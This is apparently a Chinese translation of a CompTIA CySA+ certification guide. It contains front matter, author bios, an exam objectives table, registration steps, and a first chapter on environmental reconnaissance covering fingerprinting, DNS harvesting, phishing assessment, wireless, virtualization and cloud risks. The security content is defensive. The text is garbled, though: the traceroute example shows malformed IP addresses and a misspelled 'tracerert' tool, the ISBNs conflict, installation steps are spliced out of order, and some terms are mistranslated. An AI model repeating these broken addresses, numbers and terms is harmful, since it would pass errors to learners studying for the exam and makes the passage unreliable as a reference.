# CompTIA Cybersecurity Analyst (CySA+) 认证指南

学习、准备与练习，助力通过考试


## 总编辑

Mark Taub

## 产品线经理

Brett Bartow

## 策划编辑

Michelle Newcomb

## 开发编辑

Ellie Bru

## 主编

Sandra Schroeder

## 高级项目编辑

Tonya Simpson

## 文字编辑

Kitty Wilson

## 索引编制

Publishing Works, Inc.

## 校对

技术编辑

Chris Crayton  
Robin Abernathy

## 出版协调

Vanessa Evans

## 封面设计

Chuti Prasertsith

## 排字员

- 词表
- 评估备状态
- 第 1 章. 应用环境侦察技术

# 第 1 章. 应用环境侦察技术

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 2 章. 分析网络侦察结果

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 3 章. 建议并实施适当的响应与应对措施

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 4 章. 用于保护企业环境的实践

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 5 章. 实施信息安全漏洞管理流程

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 6 章. 分析扫描输出并识别常见漏洞

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 7 章. 识别事件影响并组装取证工具包

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 8 章. 事件响应流程

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 9 章. 事件恢复与事件后响应

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 10 章. 框架、策略、控制措施与规程

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 11 章. 修复与身份和访问管理相关的安全问题

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 12 章. 安全架构与实施补偿性控制

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 13 章. 应用安全最佳实践

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 14 章. 使用网络安全工具与技术

## “我已经知道了吗？”测试

基础主题

考试准备任务

# 第 15 章. 最终准备

最终准备工具

建议的复习计划

总结

# 附录 A “我已经知道了吗？”测试与复习题答案

# 词表

# 关于作者

Troy McMillan 是 Kaplan IT 的产品开发人员和技术编辑，也是一名全职培训师。他在 16 年前成为专业培训师，教授 `Cisco`、`Microsoft`、`CompTIA` 和无线课程。他编写并参与了十多个项目，包括最近的：

- 《CCNA `Cisco` 网络工程师认证考试准备指南》贡献主题专家
- 《`CISSP` 认证指南》作者
- `Cisco Press` 《CCNA Wireless 640-722》备考测试题编写人
- 《CASP 认证指南》作者

Troy 还曾出现在 `OnCourse Learning` 的以下培训视频中：`Security++`；`Network++`；`Microsoft 70-410`、`411` 和 `412` 备考；`ICND1` 以及 `ICND2`。

他还为 `(ISC)` 的授权在线培训供应商 `CyberVista` 提供 `CISSP` 培训。

Troy 现在为 `Transender` 和 `Self-Test` 品牌创建认证练习题和学习指南。他与妻子 `Heidi` 住在北卡罗来纳州的帕法特敦（`Pfaffattown`）。

# 致谢

我必须感谢 `Pearson` 团队的每一个人，感谢他们的帮助让这本书比没有他们的帮助时更好。这包括 `Michelle Newcomb`、`Eleanor Bru`、`Chris Crayton` 和 `Robin Abernathy`。

# 关于技术评审员

`Chris Crayton`, `MCSE` 是一位作者、技术顾问和培训师。他曾担任计算机技术和网络讲师、信息安全总监、网络管理员、网络工程师和 `PC` 专家。`Chris` 编写了多本关于 `PC` 维修、`CompTIA A+`、`CompTIA Security+` 和 `Microsoft Windows` 的纸质和在线书籍。他还曾在几家领先出版公司的众多技术书籍担任技术编辑和内容贡献者。他拥有众多行业认证，并获得过许多专业教学奖，还担任过州级 `SkillsUSA` 比赛评审。

`Robin M. Abernathy` 在 `Kaplan IT Certification Preparation`（`Transcoder` 和 `Self Test` 品牌的拥有者）IT 认证准备行业工作了十多年。`Robin` 为许多 `(ISC)2`、`Microsoft`、`CompTIA`、`PMI`、`Cisco` 和 `ITIL` 认证编写并编辑了认证准备材料，并持有这些供应商提供的多项 IT 认证。

`Robin` 提供计算机硬件和软件、网络、安全和项目管理方面的培训。在过去的几年里，她进入了传统出版行业，技术编辑了若干出版物，并合著了 `Pearson` 的 `CISSP` 认证指南和 `CASP` 认证指南。她在技术会议上进行演讲并主持有关 IT 认证主题的网络研讨会。

## 我们想听取您的声音！

作为本书的读者，您是我们是最重要的批评家和评论员。我们重视您的意见，并想知道我们做得好的地方、哪些可以做得更好、您希望我们出版哪些领域的内容，以及您愿意提供给我们的任何建议。

我们欢迎您的意见。您可以通过电子邮件或写信告诉我们您对这本书的喜欢或不满意之处——以及我们可以做什么来改进我们的书籍。

请注意，我们无法帮助您解决与本书主题相关的技术问题。

在您写信时，请务必包含本书的书名和作者，以及您的姓名和电子邮件地址。我们将仔细审查您的意见，并将其与参与本书的作者和编辑分享。

# 读者服务

在 `www.pearsonitcertification.com` 注册您的 `CompTIA Cybersecurity Analyst (CSA+)` 认证指南副本，以便方便地访问可用下载、更新和更正。要开始注册过程，请访问 `www.pearsonitcertification.com/register` 并登录或创建账户*。输入产品 ISBN `97807879756954` 并点击提交。过程完成后，您将在“注册产品”（`Registered Products`）下找到任何可用额外内容。

> *请务必勾选您希望收到我们的信息的方框，以获得该产品未来版本的专属折扣。

# 引言

`CompTIA CSA+` 弥补了 `CompTIA Security+` 与 `CompTIA Advanced Security Practitioner (CASP)` 之间的技能差距。在 `CSA+` 的基础上，IT 专业人员可以追求 `CASP` 以证明他们掌握了 5 到 10 年经验水平所需的实战网络安全技能。获得 `CSA+` 认证在 `CompTIA` 推荐的网络安全职业路径中发展您的职业。

`CompTIA CSA+` 认证旨在设计一种“厂商中立”的考试，衡量您对行业标准技术的了解。

# 目标与方法

本书的首要目标非常简单：帮助您通过 2017 版 `CompTIA CSA+` 认证考试 `CS0-001`。

由于 `CompTIA CSA+` 认证考试强调解决问题的能力和推理能力，而非对术语和事实的记忆，我们的目标是帮助您掌握和理解每项考试所需的 get。

为了帮助您掌握和理解 `CSA+` 认证目标，本书采用了以下方法：

- 每章的开头定义了该章涵盖的主题；它还列出了对应的 `CompTIA CSA+` 目标。
- 正文从实战和理论的角度解释了主题。这包括深入的描述、表格和图表，旨在建立您的知识，以便您能够通过考试。每个章节被划分为几个主题。
- 关键主题指出了您在考试中需要了解的重要图表、表格和信息列表。它们穿插在章节中，并列在章节末尾的表格。
- 每章末尾列出了没有定义的关键术语。写下每个术语的定义，并对照词表中的完整关键术语来检查您的工作。

# 谁应该读这本书？

`CompTIA CSA+` 考试专为 IT 安全分析师、漏洞分析师和威胁情报分析师设计。该考试证明候选人具备所需的知识和技能，可以配置和使用检测工具、执行数据分析并解释结果以识别组织的漏洞、威胁和风险，最终目的是安全地保护组织中的应用程序和系统。

参加 `CompTIA CSA+` 考试的推荐经验包括 `Network+`、`Security+` 或同等知识，以及至少三四年的信息安全相关实战经验。虽然没有强制的先决条件，但 `CSA+` 意在 `CompTIA Security+` 或同等经验之后，并具有技术实战重点。

这本书适合那些尝试在网络安全领域获得职位的人。它也适合那些希望保持技能敏锐，或者由于公司强制要求更新安全知识而希望保留工作的人。

如果您想在 `Security+` 之外获得额外的认证，这本书也适合您。本书旨在为未来的学习提供便利过渡。

# 备考策略

备考策略取决于您的现有技能、知识和可用设备。当然，理想的备考包括三到四年的安全或相关经验，然后对考试目标进行严格学习。

在读完本书后，查看 `CompTIA CSA+` 认证考试目标，位于 `https://certification.comptia.org/certifications/cybersecurity-analyst#tab4`。如果在考试大纲中显示的您仍然希望学习的领域，请在书中找到这些章节并进行复习。

当您对自己的技能有信心时，尝试配套网站上的练习题。在完成练习题时，记录您缺乏信心的地方，并在书中查看这些概念或配置。在复习这些领域后，第二次完成练习题并评估您的技能。请记住，练习得越多，对题目就越熟悉。

在第二次完成练习题并对技能有信心后，通过 `Pearson Vue (www.vue.com)` 预约 `CompTIA CSA+ CS0-001` 考试。为了防止信息从脑海中消失，您通常应该在认为准备好的一周内参加考试。

表 I-1. CSA+ 考试主题

| 章节 | 考试主题 | 的 CompTIA CSA+ 考试目标 |
| :--- | :--- | :--- |
| 1 | 1.1 在给定场景下，使用适当的工具和流程应用环境侦察。 | CS0-001 目标 1.1 |
| 2 | 1.2 在给定场景下，分析网络侦察的结果。 | CS0-001 目标 1.2 |
| 3 | 1.3 针对网络威胁，实施或建议适当的响应和措施。 | CS0-001 目标 1.3 |
| 4 | 1.4 解释用于保护企业环境的实践目的。 | CS0-001 目标 1.4 |
| 5 | 2.1 在给定场景下，实施信息安全漏洞管理流程。 | CS0-001 目标 2.1 |
| 6 | 2.2 在给定场景下，分析漏洞扫描产生的输出。 | CS0-001 目标 2.2 |
| | 2.3 比较并对比组织内以下目标中常见的安全漏洞。 | CS0-001 目标 2.3 |
| 7 | 3.1 在给定场景下，区分威胁数据或行为以确定事件的影响。 | CS0-001 目标 3.1 |
| | 3.2 在给定场景下，准备工具包并在调查期间使用适当的调查工具包。 | CS0-001 目标 3.2 |
| 8 | 3.3 解释在事件响应过程中通信的重要性。 | CS0-001 目标 3.3 |
| | 3.4 在给定场景下，分析常见症状以选择最佳行动方案来支持事件响应。 | CS0-001 目标 3.4 |
| 9 | 3.5 总结事件恢复和事件后响应流程。 | CS0-001 目标 3.5 |
| 10 | 4.1 解释框架、通用策略、控制和程序之间的关系。 | CS0-001 目标 4.1 |
| 11 | 4.2 在给定场景下，使用数据建议修复与身份和访问管理相关的安全问题。 | CS0-001 目标 4.2 |
| 12 | 4.3 在给定场景下，审查安全架构并提出实施补偿性控制的建议。 | CS0-001 目标 4.3 |
| 13 | 4.4 在给定场景下，参与软件开发生命周期 (`SDLC`) 时使用安全最佳实践。 | CS0-001 目标 4.4 |
| 14 | 4.5 比较并对比使用各种网络安全工具和技术的通用目的和原因。 | CS0-001 目标 4.5 |

本书使用了几种关键方法，帮助你发现需要更多复习的考试主题，帮助你充分理解并记住这些细节，并帮助你向自己证明已经掌握了这些主题的知识。因此，本书并不试图仅通过背记忆帮助你通过考试，而是通过真正学习和理解这些主题。

书中包含了许多功能，提供了不同的学习方式，以便你为考试做好准备。如果你在阅读某个主题时已经理解了它，则无需进一步学习，但你可能无法有心地通过考试。书中的功能为你提供了工具，帮助你确定已掌握的内容、复习已掌握的内容、更好地学习未知的内容，并为考试做好充分准备。这些工具包括：

- “我已经认识这个了吗？”测验：每个章节都从一个测验开始，帮助你确定学习该章节需要花费的时间。
- 基础知识 (`Foundation Topics`)：这些是每个章节的核心部分。它们解释了该章节中主题的协议、概念和配置。
- 备考任务 (`Exam Preparation Tasks`)：“备考任务”部分列出了在阅读“基础知识”部分后应完成的一系列学习活动。每个章节都包含了最适合学习该主题的活动。
- 关键主题回顾 (`Key Topics Review`)：“关键主题”图标出现在章节中“基础知识”部分中最重要的项目旁边。“关键主题回顾”部分列出了该章节的关键主题及其页码。虽然整个章节的内容都可能出现在考试中，但你应该一定要掌握用关键主题图标突出显示的信息。请仔细复习这些主题。
- 关键术语定义 (`Definition of Key Terms`)：虽然认证考试可能不会问“你如何定义术语 ___？”这样的问题，但 `CSA+` 考试要求掌握章节中一些最重要的术语，并要求你写出短定义并将你的答案与术语表对比。
- 章节复习题 (`End-of-Chapter Review Questions`)：复习题帮助你确认你理解了刚刚涵盖的内容。

注册本书以访问 `Pearson IT` 认证测试引擎和其他学习材料，以及额外的奖励内容。定期检查此网站，查看作者编写的新旧更新文章，这些文章为考试中最棘手的主题提供了进一步的见解。务必勾选希望收到我们消息的框，以接收该产品未来版本或相关产品的更新和独家折扣。

要访问此辅助网站，请按照以下步骤操作：

- 1. 进入 `www.pearsonITcertification.com/register` 并登录或创建新账户。
- 2. 输入 ISBN `978087975694`。
- 3. 回答挑战性问题作为购买证明。
- 4. 点击访问。
- 2. 一旦软件下载完成，请在计算机上解压缩所有文件。
- 3. 双击应用程序文件开始安装，并按照屏幕上的指示完成注册。
- 4. 安装完成后，启动应用程序并在“我的产品”（`My Products`）选项卡上选择“激活考试”（`Activate Exam`）按钮。
- 5. 点击“激活产品”向导”（`Activate Product Wizard`）中的“激活产品”（`Activate a Product`）按钮。
- 6. 输入书后封套内卡片上的唯一访问代码，并点击“激活”（`Activate`）按钮。
- 7. 点击“下一步”（`Next`），然后点击“完成”（`Finish`）按钮将考试数据下载到您的应用程序中。
- 8. 现在可以通过选择产品并点击“打开考试”（`Open Exam`）按钮打开考试设置界面，开始使用练习考试。

桌面级系统版本要求：

- `Windows 10`、`Windows 8.1`、`Windows 7` 或 `Windows Vista (SP2)`
- `Microsoft NET Framework 4.5 Client`
- `Pentium` 类 `1 GHz` 处理器（或同处理器）
- `512 MB` 硬盘空间，每个每个下载的练习考试额外需要 `50 MB`
- 需要访问互联网以注册和下载考试数据库

## 评估考试就绪情况

考生在完成大约 `30%` 的题目之前，永远不知道自己是否对考试做好了充分准备。在那时，如果你还没有准备好，就太晚了。确定你就绪状态的最佳方法是完成每章开头的“我了解这些了吗？”（`Do I Know This Already?`）测验，并回顾每章介绍的基础知识和关键主题。除非你可以在进行任何研究或查找答案的情况下完成每个学科，否则最好完成整本书。

除了购买时提供的免费练习考试外，您还可以从 `Pearson IT Certification` 直接购买一个具有扩展功能的额外考试。该书的高级版电子书和练习测试包含一份额外的完整练习考试以及一份电子书（支持 `PDF` 和 `ePub` 格式）。此外，高级版还为每个问题提供了补救措施，引导您查看电子书中与该问题相关的特定部分。

如果您购买了该版本的纸质版，可以以深度折扣购买高级版。纸板封套内有一个优惠券，其中包含一个一次性代码以及在何处购买高级版的说明。

本章涵盖了以下主题：

1.0 威胁管理

1.1 给定场景，使用适当工具和流程应用环境侦察技术。

- **程序/常见任务：** 包括拓扑发现、操作系统指纹识别、服务发现、数据包捕获、日志审查、路由器/防火墙 `ACL`、电子邮件采集、社交媒体分析、社交工程学、`DNS` 采集和网络钓鱼等主题。
- **变量：** 包括影响安全的环境问题，例如无线 vs. 有线网络、虚拟 vs. 物理环境、内部 vs. 外部网络以及本地 vs. 云环境。
- **工具：** 包括常用安全工具，如 `Nmap`、主机扫描、网络映射、`Netstat`、数据包分析器、`IDS/IPS`、`HIDS/NIDS`、基于防火墙规则的访问和日志、`Syslog` 以及漏洞扫描器。

任何网络的安全都从清楚地了解网络运行的环境开始。增强我们对环境理解的收集收集被称为环境侦察。本章入门部分介绍了用于收集信息的常用程序、可以提高收集信息质量的工具，以及可能影响所采取步骤和过程中提出的关注点的情境问题或变量。

## “我了解这些了吗？”测验

“我了解这些了吗？”测验允许您评估是否应该阅读整个章节。表 1-1 列出了本章的要标题以及涵盖这些标题材料的“我了解这些了吗？”测验问题，以便您评估自己对这些特定领域的知识程度。测验的答案位于附录 A，“‘我了解这些了吗？测验和复习题的答案”。如果您错过了这些自评估问题中的多于一个，您可能需要跳到“考试准备任务”。


## 表 1-1. “我了解这些了吗？”基础主题章节与问题映射

| 基础主题章节 | 题目 |
|---|---|
| 程序/常见任务 | 1–4 |
| 变量 | 5 |
| 工具 | 6 |

1. 您想确定在**不应**可用的网络设备上是否有任何可用服务。您可以使用以下哪项来识别这一点？
   - a. 拓扑发现
   - b. 操作系统指纹识别
   - c. 服务发现
   - d. 数据包捕获
2. 最近有报告称，恶意人员试图利用某些设备上的已知漏洞。以下哪项可以允许这些人将这些已知漏洞与每个设备相匹配？
   - a. 拓扑发现
   - b. 操作系统指纹识别
   - c. 服务发现
   - d. 数据包捕获
3. 网络团队刚刚收到 `IDS` 的警报，称有人正在使用自动化过程收集电子邮件。以下哪项可以使这成为？
   - a. 采集机器人 (Harvesting bots)
   - b. 操作系统指纹识别
   - c. 服务发现
   - d. 数据包捕获
4. 在开始担任安全分析师不久，您在会议上了解到最近对组织内几个人发起了攻击。如果攻击是通过电子邮件发送的，它是哪种类型的攻击？
   - a. 恶性孪生 (Evil twin)
   - b. 网络钓鱼 (Phishing)
   - c. 陷阱室 (Mantrap)
   - d. 蜜罐 (Honeypot)
5. 您的组织安全团队发现运行漏洞服务的系统缺少相关的安全补丁。它们是什么问题？
   - a. 虚拟机蔓延 (VM sprawl)
   - b. 虚拟机逃逸 (VM escape)
   - c. 它们是 `DDoS` (DDOS)
   - d. 虚拟机程序入侵 (Hypervisor compromise)
6. 一个组织托管了一个直接连接到互联网的服务器。这种安排被称为？
   - a. 堡垒机 (Bastion host)
   - b. 双宿主机 (Dual-homed)
   - c. 三腿主机 (Three-legged)
   - d. 边缘 (Edge)

## 基础主题

### 程序/常见任务

为了正确保护网络，必须执行某些任务。为了像黑客一样思考并攻击自己的网络，以下章节介绍了一些常用方法。

### 拓扑发现

拓扑发现意味着确定网络中的设备、它们之间的连接关系以及使用的 `IP` 地址方案。这些信息的组合允许黑客创建网络“地图”。如果他完全成功，他将获得网络图。作为安全分析师，您的挑战是确定哪些步骤可以使拓扑发现变得困难，或者最好无法发生。

### 操作系统指纹识别

通过识别操作系统版本和构建号，黑客可以使用互联网上公开文档识别操作系统的常见漏洞。虽然许多问题已经在随后的更新、服务包和热补丁中解决，但可能存在零日漏洞（尚未广泛公开或由厂商解决的问题），黑客可以利用这些漏洞。此外，如果没有应用相关的安全补丁，补丁旨在解决的问题将仍然存在于系统中。因此，在评估期间尝试操作系统指纹识别的目的是评估执行的难易程度，并识别使其变得困难的方法。

### 服务发现

操作系统有已知漏洞，常见服务也是如此。通过确定系统上运行的服务，攻击者还发现了他可能尝试利用的服务漏洞。这通常通过端口扫描完成，即识别所有“开放”或“监听”的端口。再次，绝大多数问题已通过适当的安全补丁得到了缓解，但情况并非总是如此；安全分析师经常发现运行漏洞服务的系统缺少相关的安全补丁。因此，在执行服务发现时，应该检查发现开放端口的系统的补丁。还建议关闭任何系统工作不需要的端口。

- 某些信息虽然不敏感，但有助于操作系统、网络和服务的发现过程
- 路由器之间传输的数据包可能会泄露网络和设备信息

通过执行数据包捕获，安全分析师可以看到攻击者看到的内容，并采取措施来缓解最具暴露性的问题。

## 日志审计

尽管在特定主机被攻破之前，攻击者通常无法获取日志，但安全分析师应检查所有基础设施设备和关键服务器系统的日志，查看是否存在尝试访问的行为（无论成功与失败）。攻击者在攻破系统后做的第一件事很可能是清除与他的访问相关的日志条目；但攻击者有时无法做到这一点。此外，在某些情况下，仔细检查系统和应用日志可能会发现访问记录并不存在，或者已被攻击者删除了。

## 路由器/防火墙 ACL

路由器和防火墙在环境中执行着关键的网络功能。它们可能包含路由表和访问控制列表配置信息，这些信息可以极大地协助网络指纹识别。有关设备操作系统的信息可能揭示在该设备上可能成功的攻击。探测自己的设备可以帮助你了解攻击者可以获取哪些信息。作为此过程的一部分，应该检查设备上的操作系统和固件是否缺少任何更新和补丁，这些在这些设备上经常被忘记。

## 电子邮件采集

攻击者经常尝试一种被称为“电子邮件采集”的过程，安全分析师也应该这样做。通常，电子邮件采集机器人（自动化）通过社交媒体交换或向世界公开大量信息。在某些情况下，员工可能会在无意中（或故意地）泄露用于进一步攻击的敏感信息。作为安全策略的一部分，应该向用户明确在社交媒体上哪些可以披露，哪些不能。还应该对组织提供有关社交媒体及恶意软件危险性的培训。作为评估环境的一部分，安全分析师应该采用与攻击者相同的社交媒体画像活动。

## 社会工程

作为评估安全环境的一部分，分析师应尝试最常见的社会工程攻击，以确定用户具备的安全意识水平。这些攻击涉及获得用户的信任，并以某种方式说服其披露敏感信息（如密码）或执行降低网络安全的行为。通过这种方式，攻击者将用户招募为攻击网络的无意助手。当发现社会工程问题时，应为用户提供培训以防止未来发生此类攻击。

## DNS 采集

你网络中设备的 `DNS` 记录对攻击者来说价值极大，因为它们通过名称和 `IP` 地址标识每个设备。`IP` 地址还可能暗示设备的分组方式，因为可以确定每个设备所在网络的网络 ID，从而确定哪些设备被分在公共子网中。`DNS` 记录按类型组织。表 1-2 列出了最常见的 `DNS` 记录类型。

### 表 1-2. DNS 记录类型

| 记录类型 | 功能 |
|---|---|
| `A` | 主机记录，代表单个设备到 `IPv4` 地址的映射 |
| `AAAA` | 主机记录，代表单个设备到 `IPv6` 地址的映射 |
| `CNAME` | 别名记录，代表映射到已有 `A` 记录的 `IPv4` 地址的额外主机 |
| `NS` | 名称服务器记录，代表映射到 `IPv4` 地址的 `DNS` 服务器 |
| `MX` | 邮件交换器记录，代表映射到 `IPv4` 地址的电子邮件服务器 |
| `SOA` | 区域起始记录，代表对某个 `DNS` 命名空间具有权威性的 `DNS` 服务器 |

`DNS` 采集涉及获取组织的 `DNS` 记录，将其作为网络映射的一部分。实现此操作最简单的方法（如果可行的话）是通过未经授权的区域传输（在本章稍后介绍）。但恶意个人可能获取几条记录的方法之一是使用 `Windows` 上的 `tracerert` 工具或 `Unix` 上的 `traceroute` 工具。这些工具跟踪数据包从源地到目的地的路径。当 `tracerert` 列出数据包经过的跳数或路由器时，最后几个设备通常位于组织网络内部。如果 `tracerert` 列出了设备名称（它会尝试这样做），那么黑客就可以获取这些信息。图 1-1 显示了 `tracerert` 的输出。在示例中，`tracerert` 能够解析某些路由器的名称，但不是最后两个。通常最后的跳数会超时，是因为目标网络管理员设置了路由器不响应 `ICMP` 流量。

### 图 1-1. tracerert

`Microsoft Windows [Version 10.0.19045]`

`(C) 2019 Microsoft Corporation. 保留所有。`

```
C:\WINDOWS\system32> traceroute www.nascar.com
Tracing to a269.7.akam.net [8.18.43]
over a maximum of 30 hops:
```

| 跳数 | ms | ms | ms | ms |
|---|---|---|---|---|
| 1 | 227 ms | <1 ms | <1 ms | 10.200.97.1 |
| 2 | 23 ms | <1 ms | <1 ms | rc24-149-211-193.midsouth.biz.rr.com [249.211.193] |
| 3 | 21 ms | 1 ms | 1 ms | 70.62.94.46 |
| 4 | 21 ms | 1 ms | 1 ms | 24.275.238 |
| 5 | 23 ms | 1 ms | 1 ms | rci24-hndrc-pe-rtr-01.southeast.rr.com [249.73.768] |
| 6 | 25 ms | 1 ms | 1 ms | ten-0-0.gohnc-pe-rtr-01.southeast.rr.com [249.73.357] |
| 7 | 28 ms | 8 ms | 7 ms | ten-2-0.gohnc-pe-rtr-01.southeast.rr.com [249.73.764] |
| 8 | 21 ms | 7 ms | 7 ms | 249.63.211 |
| 9 | 23 ms | 7 ms | 7 ms | 249.63.233 |
| 10 | 21 ms | 7 ms | 7 ms | 249.63.233 |
| 11 | 20 ms | 15 ms | 15 ms | 24.93.108 |
| 12 | 20 ms | 16 ms | 16 ms | 166.108 |
| 13 | 13 ms | 12 ms | 12 ms | 216.108.45 |
| 14 | 25 ms | 26 ms | 26 ms | 207.08.48 |
| 15 | 26 ms | 26 ms | 26 ms | 207.88.201 |
| 16 | 26 ms | 26 ms | 26 ms | 207.12.132 |
| 17 | 26 ms | 26 ms | 26 ms | 207.08.191 |
| 18 | 26 ms | 26 ms | 26 ms | 154.54.9 |
| 19 | 26 ms | 26 ms | 26 ms | 154.51.109 |
| 20 | 25 ms | 25 ms | 25 ms | 154.54.223 |
| 21 | 25 ms | 25 ms | 25 ms | 154.54.616 |
| 22 | 23 ms | 25 ms | 25 ms | 38.122.42 |

Trace complete.

`C:\WINDOWS\system32>`




网络钓鱼是一种社会工程攻击，涉及向接收者发送大量看似来自受信方（例如其银行）的电子邮件。邮件中包含一个声称连接到银行网站的链接，但实际上这是一个由攻击者控制的假网站，在每个方面都与银行网站完全相同。当用户输入凭据时，攻击者会收集这些凭据，并可以使用它们在真实网站上冒充用户。作为评估你的环境的一部分，你应该发送此类邮件来评估你的用户的响应意愿。高成功率表明用户需要培训以防止成功的网络钓鱼攻击。

## 变量

你对环境侦察的方法在某种程度上受到许多变量的影响，这些变量可以区分不同的网络或场景。以下章节将查看其中一些变量以及它们如何影响你执行环境侦察。

## 无线 vs. 有线

虽然有线环境为攻击者提供了许多机会，但无线网络提供的机会更多。当你使用有界介质（电缆）时，你对数据包的去向具有一定的控制权；然而，当无线信号发送出去时，范围内的任何人都可以获取，当攻击者捕获这些信息时，你无法检测到它。因此，你必须假设你所有的无线数据包都在被读取，并加密任何敏感信息。

此外，还存在许多 WLAN 特有的其他危险。如果攻击者能够设置一个“双孪生攻击”（在不同信道上与合法 `AP` 具有相同 `SSID` 的接入点），他可以说服（有时是强制）用户与他的 `AP` 关联，然后分发 `IP` 地址将他们置于他的网络中。此时，他已经处于了可以执行点对点攻击的位置。

WLAN 中的环境侦察测试应该包括寻找这些“流氓” `AP`。你可能会在此过程中发现，流氓 `AP` 是用户放置的，他们并不知道自己正在制造安全问题。将一个不安全的 `AP` 连接到你的有线网络，就像在停车场外有一个太网口，上面写着“此处可未经身份验证访问我们的内部网络”。WLAN 中的测试还应该识别任何以明文传输的敏感信息。最后，应该进行现场调查以评估适当的距离并识别弱点和流氓接入点。

以下是你可以采取的一些缓解无线攻击的措施：

- 禁用 `SSID` 广播
- 创建仅允许已知设备的 `MAC` 地址过滤
- 使用提供机密性和完整性的身份验证过程，如 `WPA` 和 `WPA2`
- 部署 `802.1X` 基于端口的安全防护
- 将无线电传输强度设置为仍覆盖所需区域的最低水平

如果你计划部署 `WPA` 或 `WPA2`，请记住有几种变体，如表 1-3 所示，它们在易用性和安全性方面有所。

| 变体 | 访问控制 | 加密 | 完整性 |
|---|---|---|---|
| WPA 个人版 | 预共享密钥 | TKIP | Michael |
| WPA 企业版 | 802.1X (RADIUS) | TKIP | Michael |
| WPA2 个人版 | 预共享密钥 | CCMP, AES | CCMP |
| WPA2 企业版 | 802.1X (RADIUS) | CCMP, AES | CCMP |

多个物理服务器越来越多地整合到单个物理设备或主机上，作为虚拟服务器。甚至可能让整个虚拟网络驻留在这些主机上。虽然这些设备似乎被安全地限制在物理设备上，但它们仍然容易受到攻击。如果主机被攻破或管理虚拟化的虚拟机程序被攻破，可能会导致针对 `VM` 的攻击。虚拟化攻击属于以下几类：

- 虚拟机逃逸（VM escape）：这种攻击发生在客机操作系统从其虚拟机封装中逃逸并直接与虚拟机程序交互时。这可能允许访问所有的虚拟机以及主机机器。
- 不安全的虚拟机迁移（Unsecured VM migration）：当虚拟机迁移到新主机，且安全策略和配置未随之更新以反映这种变化时，就会发生此类攻击。
- 主机和客机漏洞：主机和客机之间的交互会放大系统漏洞。主机和客机系统上的操作系统可能会遇到所有物理设备相同的问题。因此，客机和主机操作系统都应该始终具有最新的安全补丁，并安装最新的防病毒软件。应涵盖所有其他操作系统加固原则，包括禁用不需要的服务和不需要的账户。
- 虚拟机泛滥（VM sprawl）：更多的虚拟机会产生更多的故障点，即使没有恶意，泛滥也会导致问题。当虚拟机数量随时间推移增长到无法管理的程度时，就会发生泛滥。此时，管理员跟进的能力逐渐降低。
- 虚拟机程序攻击（Hypervisor attack）：这种攻击涉及接管虚拟机程序以获取虚拟机及其数据的访问。虽然由于直接访问虚拟机程序的困难，此类攻击非常罕见，但管理员应该为此做好计划。
- 拒绝服务（Denial of service）：这种攻击的目标是通过过量请求淹没目标来中断其服务。
- 虚拟机隔离不足（Inadequate VM isolation）：这种攻击允许虚拟机进行不当通信并访问其他客机。

环境侦察测试应该包括寻找这些漏洞。此外，安全专业人员应该利用虚拟机程序自带的监控工具。特别注意虚拟环境的分隔。

## 内部 vs. 外部

你保护内部资源的方法应与保护 DMZ 资源的方法不同。创建多个逻辑段的原因之一是允许在防火墙或路由器处进行第 3 层访问控制。这些列表的应用不当可能会导致意外访问。

除了 ACL 配置外还存在其他危险：

- 当 DMZ 服务器访问内部数据库时，防火墙会有更多开口。
- 过多的 DMZ 连接为恶意代码提供了潜在入口。
- DMZ 连接通常为未经授权的用户利用敏感或专利信息提供了途径。
- 如果一个网络被攻破，与之连接的所有网络都存在渗透风险。访问控制不足以及对安全策略和要求的理解会暴露互连的网络。

在环境侦察测试中尝试利用这些漏洞之外，你应该测试所有的 ACL 并验证：

- 外网和 DMZ 与公司内网安全隔离。
- 使用虚拟专用网络 (VPN) 提供安全连接。
- 使用强身份验证唯一标识外部用户。
- 使用最小权限原则实现授权。
- 合作伙伴网络之间不存在路由路径。
- 使用实时监控、审计和告警。

## 本地 vs. 云端

随着虚拟化的发展，资源正趋向于放置在云环境中。虽然云允许用户从任何可以访问互联网的地方访问资源，但它呈现了与你的本地资源安全格局不同的安全格局。其一，公共云解决方案依赖于提供商的安全实践。

将资源放置在公共云中你面临的最大风险如下：

- 多租户可能导致以下情况：
     另一个租户或攻击者看到其他人的数据或冒充其他客户
     旧租户的残留数据暴露在分配给新租户的存储空间中
- 云环境中虚拟化的使用会导致之前“虚拟 vs. 物理”部分涵盖过的问题。
- 身份验证和授权机制可能不当或

不充分。

- 用户可能因为冗余和容错措施不足而导致无法访问。
- 与客户共享数据所有权可以限制服务提供者的法律责任。
- 服务提供者可能会不当使用数据（例如数据挖掘）。
- 数据管辖权是一个问题：数据实际存储在何处？根据位置，哪些法律影响它？
